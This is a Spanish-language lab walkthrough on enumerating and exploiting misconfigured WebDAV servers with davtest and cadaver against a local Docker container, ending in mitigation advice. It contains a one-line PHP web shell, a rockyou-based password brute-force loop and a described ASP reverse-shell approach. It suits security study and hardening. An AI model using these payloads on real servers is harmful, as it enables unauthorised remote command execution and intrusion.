



---
# Enumeración y Explotación de WebDAV

> WebDAV (Web Distributed Authoring and Versioning) es una extensión del protocolo HTTP que nos permite acceder, cargar, modificar y eliminar archivos en un servidor web de forma remota. Está diseñado para facilitar el trabajo colaborativo sobre documentos web, pero puede ser mal configurado, lo cual representa un riesgo de seguridad.

## ¿Qué significa enumerar un servidor WebDAV?

Cuando hablamos de enumerar un servidor WebDAV, nos referimos al proceso de recopilación de información sobre los archivos y directorios accesibles a través de este servicio. Esta fase es fundamental para entender qué tipos de archivos acepta el servidor, qué permisos tenemos sobre ellos (lectura, escritura, ejecución), y si hay recursos sensibles mal protegidos.

Durante esta fase también identificamos qué extensiones de archivo permite el servidor. Esta información es clave, ya que si se aceptan extensiones como `.php`, `.asp`, `.jsp`, etc., podríamos intentar cargar un archivo malicioso que se ejecute en el servidor.

## Herramientas que utilizamos

### Davtest

Davtest es una herramienta en línea de comandos diseñada para auditar servidores WebDAV. Nos permite probar la carga de múltiples tipos de archivos y verificar si son ejecutables. Es útil para descubrir qué extensiones están permitidas y si el servidor ejecuta código remoto.

### Cadaver

Cadaver es una herramienta de terminal que actúa como un cliente WebDAV interactivo. Con ella podemos navegar por los directorios, subir archivos, descargarlos y modificar el contenido del servidor si los permisos lo permiten.

Ambas herramientas son muy útiles durante la fase de reconocimiento y explotación.

---

## Ejemplo práctico

Supongamos que desplegamos un contenedor vulnerable con WebDAV usando la imagen de Docker:

```bash
docker run -d -p 80:80 bytemark/webdav
```

Luego usamos `davtest` para identificar qué extensiones están permitidas:

```bash
davtest -url http://localhost/
```

Si vemos que permite `.php`, podríamos crear un archivo `shell.php` con el siguiente contenido:

```php
<?php system($_GET['cmd']); ?>
```

Lo subimos con `cadaver`:

```bash
cadaver http://localhost/
dav:/> put shell.php
```

Y lo ejecutamos en el navegador:

```
http://localhost/shell.php?cmd=whoami
```

Esto ejecutaría el comando `whoami` en el servidor, revelando el usuario actual.

---

## Ejemplo realista

Imaginemos que trabajamos en un equipo de red teaming y durante una auditoría interna encontramos que uno de los servidores de una empresa tiene habilitado WebDAV sin autenticación.

Descubrimos que podemos cargar archivos `.asp` y que el servidor está en Windows. Creamos una reverse shell en ASP (por ejemplo con `msfvenom`), la subimos al servidor y al acceder al archivo en el navegador, logramos una conexión reversa a nuestro equipo, ganando control sobre el sistema.

---

## Medidas de mitigación

Para protegernos ante estos vectores de ataque, debemos:

- Deshabilitar WebDAV si no se necesita.
    
- Configurar correctamente los permisos de lectura y escritura.
    
- No permitir la carga de archivos ejecutables como `.php`, `.asp`, `.jsp`, etc.
    
- Implementar autenticación y autorización fuertes.
    
- Monitorizar accesos y subir registros a un SIEM.
    
- Hacer pruebas periódicas con herramientas como `davtest` para verificar el endurecimiento del servidor.
    

---

## Recursos

Repositorio Docker con entorno vulnerable para practicar:

**WebDAV Vulnerable Docker**  [https://hub.docker.com/r/bytemark/webdav](https://hub.docker.com/r/bytemark/webdav)

---
# Laboratorio, guía paso a paso de explotación

Acción:

```bash
docker pull bytemark/webdav
docker run --restart always -v /srv/dav:/var/lib/dav -e AUTH_TYPE=Digest -e USERNAME=admin -e PASSWORD=richard --publish 80:80 -d bytemark/webdav
docker ps
```

Resultado:

```bash
CONTAINER ID   IMAGE             COMMAND                  CREATED         STATUS         PORTS                                        NAMES
86327e2c497a   bytemark/webdav   "docker-entrypoint.s…"   3 seconds ago   Up 2 seconds   0.0.0.0:80->80/tcp, :::80->80/tcp, 443/tcp   busy_saha
```

Explicación: tenemos el laboratorio corriendo por el `localhost:80`



---

## Reconocimiento

Acción:

```bash
whatweb http://127.0.0.1
```

Resultado:

```bash
http://127.0.0.1 [401 Unauthorized] Apache[2.4.37], Country[RESERVED][ZZ], HTTPServer[Unix][Apache/2.4.37 (Unix)], IP[127.0.0.1], Title[401 Unauthorized], WWW-Authenticate[WebDAV][Digest]
```

Explicación: con *whatweb* vemos que existe una cabecera `WWW-Authenticate[WebDAV][Digest]`


Acción:

```bash
davtest -url http://127.0.0.1 -auth admin:richard 2>&1
```

Resultado:

```bash
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://127.0.0.1
********************************************************
NOTE	Random string for this session: 91iISb5pQ6yH0x
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x
********************************************************
 Sending test files
PUT	txt	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.txt
PUT	cfm	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.cfm
PUT	aspx	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.aspx
PUT	html	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.html
PUT	shtml	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.shtml
PUT	pl	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.pl
PUT	asp	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.asp
PUT	cgi	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.cgi
PUT	jhtml	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.jhtml
PUT	jsp	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.jsp
PUT	php	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.php
********************************************************
 Checking for test file execution
EXEC	txt	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.txt
EXEC	txt	FAIL
EXEC	cfm	FAIL
EXEC	aspx	FAIL
EXEC	html	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.html
EXEC	html	FAIL
EXEC	shtml	FAIL
EXEC	pl	FAIL
EXEC	asp	FAIL
EXEC	cgi	FAIL
EXEC	jhtml	FAIL
EXEC	jsp	FAIL
EXEC	php	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.txt
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.cfm
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.aspx
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.html
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.shtml
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.pl
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.asp
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.cgi
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.jhtml
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.jsp
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.php
Executes: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.txt
Executes: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.html
```

Explicación: en caso de conocer las credenciales, estas son las extensiones de archivos que permite el servidor WebDAV

Acción:

```bash
cat /usr/share/wordlists/rockyou.txt| while read password; do response=$(davtest -url http://127.0.0.1 -auth admin:$password 2>&1 | grep -i succeed); if [ $response ]; then echo "[+] La contraseña es: $password"; break; fi; done
```

Resultado:

```bash
[+] La contraseña es: richard
```

Explicación: en caso de no saber la contraseña y si el usuario podemos hacer fuerza bruta con este oneliner 

---

## Explotación y subida de archivos

Acción:

```bash
cadaver http://127.0.0.1
```

Resultado:

```bash
Authentication required for WebDAV on server `127.0.0.1':
Username: admin
Password: 
dav:/> ls
Listing collection `/': succeeded.
Coll:   DavTestDir_91iISb5pQ6yH0x              0  Jun 11 12:59
Coll:   DavTestDir_M6L5fe                      0  Jun 11 13:06
Coll:   DavTestDir_VyMXILt                     0  Jun 11 13:04
dav:/> 
```

Explicación: con la herramienta *cadaver* teniendo las credenciales podemos ganar acceso al servidor WebDAV. Desde aquí no es que podamos ejecutar comandos, pero si subir, borrar y modificar archivos


Acción: 

```bash
dav:/> put webdav_Pwned.txt 
Uploading webdav_Pwned.txt to `/webdav_Pwned.txt':
Progress: [=============================>] 100.0% of 33 bytes succeeded.
dav:/> 
```





Explicación: si en nuestra máquina atacante, creamos un archivo como el mencionado, y lo subimos desde la maquina víctima estando en el repositorio que queremos, usamos `put <nombre archivo>` y subimos dicho archivo, en este caos tenemos capacidad de 'listar directorios' en el navegador como vemos

---
